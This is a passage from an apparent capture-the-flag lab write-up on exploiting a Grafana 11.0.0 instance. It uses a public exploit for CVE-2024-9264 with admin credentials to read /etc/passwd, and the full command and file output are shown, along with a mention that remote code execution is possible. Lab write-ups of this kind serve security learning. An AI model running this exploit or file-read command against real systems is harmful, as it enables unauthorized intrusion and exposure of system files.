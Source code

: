 Knowing all this, we can begin exploitation.

## EXPLOITATION

***

First of all, let's check the version of the Grafana panel we are in, we can do this by clicking the `(?)` button on top right of the screen:

![](gitbook/cybersecurity/images/Pasted%20image%2020250601145933.png)

As seen, we are dealing with `Grafana V.11.0.0`, let's check an exploit for this version:

![](gitbook/cybersecurity/images/Pasted%20image%2020250601150010.png)

We find `CVE-2024-9264`, let's check it out:

Link: https://github.com/nollium/CVE-2024-9264

![](gitbook/cybersecurity/images/Pasted%20image%2020250601150053.png) ![](gitbook/cybersecurity/images/Pasted%20image%2020250601150331.png)

Ok, so based on this, we can perform arbitrary file read and luckily for us, even RCE, let's test the script:

```
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -f /etc/passwd http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Reading file: /etc/passwd
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/etc/passwd'):
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250601150134.png)
